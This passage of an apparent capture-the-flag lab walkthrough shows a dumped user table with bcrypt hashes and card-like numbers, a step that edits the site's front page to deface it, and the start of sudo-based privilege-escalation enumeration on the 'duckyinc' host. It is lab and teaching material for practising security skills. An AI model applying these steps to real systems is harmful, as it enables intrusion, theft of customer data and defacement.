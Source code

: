 ```
+----+----------+--------------------------------------------------------------+----------------------------+---------------------------------+------------------+
| id | username | _password                                                    | credit_card                | email                           | company          |
+----+----------+--------------------------------------------------------------+----------------------------+---------------------------------+------------------+
|  1 | jhenry   | $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           | sales@fakeinc.org               | Fake Inc         |
|  2 | smonroe  | $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            | accountspayable@ecorp.org       | Evil Corp        |
|  3 | dross    | $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            | accounts.payable@mcdoonalds.org | McDoonalds Inc   |
|  4 | ngross   | $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           | sales@ABC.com                   | ABC Corp         |
|  5 | jlawlor  | $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           | sales@threebelow.com            | Three Below      |
|  6 | mandrews | $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{Redacted}              | ap@krasco.org                   | Krasco Org       |
|  7 | dgorman  | $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           | payable@wallyworld.com          | Wally World Corp |
|  8 | mbutts   | $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           | payables@orlando.gov            | Orlando City     |
|  9 | hmontana | $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            | sales@dollatwee.com             | Dolla Twee       |
| 10 | csmith   | $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            | sales@ofamdollar                | O!  Fam Dollar   |
+----+----------+--------------------------------------------------------------+----------------------------+---------------------------------+------------------+
```

Found it!

**In the mission objectives, we need to deface the website:**

> "What I want you to do is simple. Break into the server that's running the website and deface the front page."

**Let's do it!**
```
server-admin@duckyinc:~$ nano /var/www/duckyinc/templates/index.html
```

## Privilege Escalation

### server-admin to root

Let's do some enumerations!

**Sudo permission:**
```
server-admin@duckyinc:~$ sudo -l
[sudo] password for server-admin: 
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl
        restart duckyinc.service, /bin/systemctl daemon-reload, sudoedit
        /etc/systemd/system/duckyinc.service
```
